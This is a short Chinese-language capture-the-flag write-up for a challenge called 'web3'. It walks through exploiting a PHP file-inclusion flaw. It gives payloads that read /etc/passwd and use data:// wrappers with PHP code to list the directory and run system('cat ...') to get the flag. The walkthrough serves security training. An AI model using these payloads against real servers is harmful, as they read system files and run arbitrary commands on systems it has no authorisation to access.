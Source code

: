 ## web3

+ 打开<code>web3</code>界面

![web3_1](./img/web3_1.PNG)

由文字解析，由于包括<code>include</code>可知这是文件包含漏洞



+ 首先注入以下语句

~~~ shell
?url=/etc/passwd
~~~

![web3_2](./img/web3_2.PNG)

可看到有回显位，由此知道注入成功



+ 注入语句查询当前目录下的文件结构

~~~ shell
?url=data://text/plain,<?php print_r(glob("*"))?>
~~~

![web3_3](./img/web3_3.PNG)



+ 查看<code>ctf_go_go_go</code>文件

~~~ shell
?url=data://text/plain,<?php system("cat ctf_go_go_go"); ?>
~~~

![web3_4](./img/web3_4.PNG)

得到<code>flag</code>


